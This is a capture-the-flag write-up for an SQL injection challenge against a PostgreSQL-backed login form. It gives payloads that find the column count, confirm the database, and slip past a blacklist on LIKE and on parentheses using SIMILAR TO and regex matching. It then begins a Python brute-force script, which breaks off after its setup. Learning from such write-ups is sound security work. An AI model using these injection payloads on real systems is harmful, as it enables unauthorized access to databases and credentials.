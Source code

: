 Let's start step by step. First, we'll determine how many columns there are by using the query `' ORDER BY 3-- -`. giveing error

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2017.png)

`' ORDER BY 2-- -` works fine

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2018.png)

After a lot of searching and trying to bypass the `LIKE` filter keyword, I haven’t found anything useful. However, I remember that there is something similar to `LIKE` in PostgreSQL. But first, let’s confirm if PostgreSQL is the database being used

`'+UNION+SELECT+null,table_name+FROM+information_schema.tables+WHERE+table_name+='pg_user'--`

This query attempts to check the `pg_user` table name from the `information_schema.tables` if it exists. If PostgreSQL is being used and the `pg_user` table is present, we will see `welcome` in the response.

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2019.png)

Now that we’ve confirmed they are using PostgreSQL, we can use the following payload to get the database user:

`'+UNION+SELECT+NULL,+current_user+FROM+information_schema.columns+WHERE+table_name+%3d+'pg_user'+AND+current_user+SIMILAR+TO+'ASCWG{%25'--`

We used `SIMILAR TO` because `LIKE` is blacklisted, and we chose this payload because parentheses `()` are also blacklisted.

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2020.png)

Now we need to create a Python script to automate this process. For easier payloads, we can use `test'+or+user+~+'^ASCWG{'--`, which will achieve the same result as the previous payload.

```python
import requests
import string
import time

session = requests.session()

burp0_url = "https://real.ascwg-challs.app:443/login"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Sec-Ch-Ua": "\"Not)A;Brand\";v=\"99\", \"Google Chrome\";v=\"127\", \"Chromium\";v=\"127\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": "\"Windows\"",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://real.ascwg-challs.app",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://real.ascwg-challs.app/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "ar-EG,ar;q=0.9,en-EG;q=0.8,en;q=0.7,en-US;q=0.6",
    "Priority": "u=0, i"
}

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ_}'
flag = "ASCWG{"
```